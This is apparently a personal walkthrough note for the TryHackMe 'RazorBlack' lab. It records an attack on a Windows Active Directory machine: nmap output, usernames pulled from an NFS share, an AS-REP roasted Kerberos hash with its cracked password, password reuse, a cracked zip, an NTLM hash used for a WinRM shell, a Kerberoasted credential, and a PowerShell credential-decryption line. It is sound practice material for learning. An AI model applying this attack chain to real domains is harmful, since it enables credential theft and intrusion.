 Links: [[00 - Global Index (Start Here!)]] [[03 - Try Hack Me]]

# [RazorBlack]
## Notes

IP: 10.10.135.182
Nmap scan:
```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-24 13:47:49Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2049/tcp open  mountd        1-3 (RPC #100005)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RAZ0RBLACK
|   NetBIOS_Domain_Name: RAZ0RBLACK
|   NetBIOS_Computer_Name: HAVEN-DC
|   DNS_Domain_Name: raz0rblack.thm
|   DNS_Computer_Name: HAVEN-DC.raz0rblack.thm
|   DNS_Tree_Name: raz0rblack.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2022-04-24T13:50:15+00:00
| ssl-cert: Subject: commonName=HAVEN-DC.raz0rblack.thm
| Not valid before: 2022-04-23T13:46:29
|_Not valid after:  2022-10-23T13:46:29
|_ssl-date: 2022-04-24T13:50:32+00:00; 0s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/24%Time=62655509%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: HAVEN-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-04-24T13:50:17
|_  start_date: N/A
```
nothing on SMB share with null auth.

Domain name: raz0rblack.thm
ldapsearch for users
two files with  nfs one is a flag and the other is a list of usernames
```bash
daven port  
imogen royce  
tamara vidal  
arthur edwards  
carl ingram  
nolan cassidy  
reza zaydan  
ljudmila vetrova  
rico delgado  
tyson williams  
steven bradley  
chamber lin
```
formatting to a txt file
```bash
  
dport  
iroyce  
tvidal  
aedwards  
cingram  
ncassidy  
rzaydan  
lvetrova  
rdelgado  
twilliams  
sbradley
clin
```
get a hash
```bash
$krb5asrep$23$twilliams@RAZ0RBLACK.THM:204f5a58560ef786e5f0120345ba62d2$929df2cdb8bad3adaed4af263406e9bda1f0680d1beddb5571f1844dd6e784832880d2eb85f4f7a94d6b0ef0c2f30fd7eac4bb3096e1c19cd1eb320d7efb74de0107b0ac20f58ebb53d7908bf595ff40197b66c512165a5f02e98963c54d20d48f72da656d4ef4e3683eacfb6d16e2e1914670060196b14ca54f37a7c5c269063579ede5a179ff4f9da3ace5f57e6fc2bcbcd09d06b54de5af4e4cd33982c303734bf3f54c7fe6ba7039cb9a44457d2fac16d09cf42c1cc8b74e29bc6766894d6a2f32c1f0b74a2bb2b1bea46e85442999745ebd80a3b1d8fc733df2a0e83582c5649f140f8f04840eaba9687397b58f:roastpotatoes
```

see if anyother user on smb has the same password.

sbradley does.
login to the trash share and crack the zip with zip2john
electromagnetismo

from here find ljudmilas hash for a winrm shell f220d3988deb3f516c73f40ee16c431d 

use GetUserSPN.py and get a hit for xyan1d3:cyanide9amine5628
```bash
$Credential = Import-Clixml -Path "xyan1d3.xml"   $Credential.GetNetworkCredential().password`
```
will give the userpassword